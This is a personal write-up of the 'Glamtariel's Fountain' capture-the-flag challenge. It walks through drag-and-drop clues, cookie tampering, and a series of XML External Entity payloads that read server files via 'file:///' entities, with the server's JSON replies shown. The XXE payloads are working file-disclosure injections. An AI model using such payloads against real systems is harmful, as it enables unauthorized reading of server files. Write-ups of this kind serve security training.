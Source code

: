 # Glamtariel's Fountain Challenge

Explain that I had to drag things into either Glamtariel herself or her fountain. The CAPITAL LETTERS were clues as to what to focus on for each part of the challenge. You reach part two of the challenge when all you have to offer Glamtariel and her fountain are a set of 4 rings.

The opening image:
![The Fountain](/img/fountain/fountain1.png)

Click on Santa...
![The Fountain](/img/fountain/fountain2.png)

Click the candy cane...
![The Fountain](/img/fountain/fountain3.png)

Drag santa to the cake...
![The Fountain](/img/fountain/fountain4.png)

Drag the ice to the cake:
![The Fountain](/img/fountain/fountain5.png)

Drag the elf to the cake...
![The Fountain](/img/fountain/fountain6.png)

Drag the candy cane to the cake...
![The Fountain](/img/fountain/fountain7.png)

Drag santa to Glamtariel...
![The Fountain](/img/fountain/fountain8.png)

Drag the ice cube to Glamtariel...
![The Fountain](/img/fountain/fountain9.png)

Drag the candy can to Glamtariel...
![The Fountain](/img/fountain/fountain10.png)

Drag the elf to Glamtariel...
![The Fountain](/img/fountain/fountain11.png)

Changes the icons! WTF

Drag the weird puck thing to the cake:
![The Fountain](/img/fountain/fountain12.png)

Drag the sailboat to the cake:
![The Fountain](/img/fountain/fountain13.png)

![The Fountain](/img/fountain/fountain14.png)


SIMPLE FORMAT
TYPE


Tampering with the `MiniLembanh` cookie

![The Fountain](/img/fountain/fountain15.png)

Stuck here:
```
Content-Type: application/xml


<?xml version="1.0" encoding="ISO-8859-1"?>

<!DOCTYPE foo [

	<!ELEMENT visit ANY >

<!ENTITY xxe SYSTEM "file:///static/js/ringlist.js">]>

<root>

<imgDrop>&xxe;</imgDrop>

<who>princess</who>

<reqType>xml</reqType>

<visit>

&xxe;

</visit>

</root>
```

After a while, THIS is what FINALLY WORKED.

I hate these CTF challenges. such a waste of time.

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE imgDrop [
<!ELEMENT imgDrop ANY >
<!ENTITY xxe SYSTEM "file:///app/static/images/ringlist.txt" >]>
<root>
    <imgDrop>&xxe;</imgDrop>
    <reqType>xml</reqType>
    <who>princess</who>
</root>
```

Replied with:

```json
{
  "appResp": "Ah, you found my ring list! Gold, red, blue - so many colors! Glad I don't keep any secrets in it any more! Please though, don't tell anyone about this.^She really does try to keep things safe. Best just to put it away. (click)",
  "droppedOn": "none",
  "visit": "static/images/pholder-morethantopsupersecret63842.png,262px,100px"
}
```

The image in question:

![The Fountain](/img/fountain/fountain16.png)

Changing the XXE a little bit gives me more info:

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE imgDrop [
<!ELEMENT imgDrop ANY >
<!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/bluering.txt" >]>
<root>
    <imgDrop>&xxe;</imgDrop>
    <reqType>xml</reqType>
    <who>princess</who>
</root>
```

```json
{
  "appResp": "I love these fancy blue rings! You can see we have two of them. Not magical or anything, just really pretty.^She definitely tries to convince everyone that the blue ones are her favorites. I'm not so sure though.",
  "droppedOn": "none",
  "visit": "none"
}
```

Glamtarial was talking about a silver ring, so...

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE imgDrop [
<!ELEMENT imgDrop ANY >
<!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/silverring.txt" >]>
<root>
    <imgDrop>&xxe;</imgDrop>
    <reqType>xml</reqType>
    <who>princess</who>
</root>
```

```json
{
  "appResp": "I'd so love to add that silver ring to my collection, but what's this? Someone has defiled my red ring! Click it out of the way please!.^Can't say that looks good. Someone has been up to no good. Probably that miserable Grinchum!",
  "droppedOn": "none",
  "visit": "static/images/x_phial_pholder_2022/redring-supersupersecret928164.png,267px,127px"
}
```

The plot thickens...

![The Fountain](/img/fountain/fountain17.png)


Searched for that file, and now we're up to this...

```json
{
  "appResp": "Hmmm, and I thought you wanted me to take a look at that pretty silver ring, but instead, you've made a pretty bold REQuest. That's ok, but even if I knew anything about such things, I'd only use a secret TYPE of tongue to discuss them.^She's definitely hiding something.",
  "droppedOn": "none",
  "visit": "none"
}
```

Interesting easter egg...

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE imgDrop [
<!ELEMENT imgDrop ANY >
<!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/greenring.txt" >]>
<root>
    <imgDrop>&xxe;</imgDrop>
    <reqType>xml</reqType>
    <who>princess</who>
</root>
```

```json
{
  "appResp": "Hey, who is this guy? He doesn't have a ticket!^I don't remember seeing him in the movies!",
  "droppedOn": "none",
  "visit": "static/images/x_phial_pholder_2022/tomb2022-tommyeasteregg3847516894.png,230px,30px"
}
```

Homage to Tom Bombadil of Tolkien fame:

![The Fountain](/img/fountain/fountain18.png)

FINALLY...

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE imgDrop [
<!ELEMENT imgDrop ANY >
<!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt" >]>
<root>
    <imgDrop>img1</imgDrop>
    <reqType>&xxe;</reqType>
    <who>princess</who>
</root>
```

so FREAKIN ANNOYING

```json
{
  "appResp": "No, really I couldn't. Really? I can have the beautiful silver ring? I shouldn't, but if you insist, I accept! In return, behold, one of Kringle's golden rings! Grinchum dropped this one nearby. Makes one wonder how 'precious' it really was to him. Though I haven't touched it myself, I've been keeping it safe until someone trustworthy such as yourself came along. Congratulations!^Wow, I have never seen that before! She must really trust you!",
  "droppedOn": "none",
  "visit": "static/images/x_phial_pholder_2022/goldring-morethansupertopsecret76394734.png,200px,290px"
}
```

![The Fountain](/img/fountain/fountain19.png)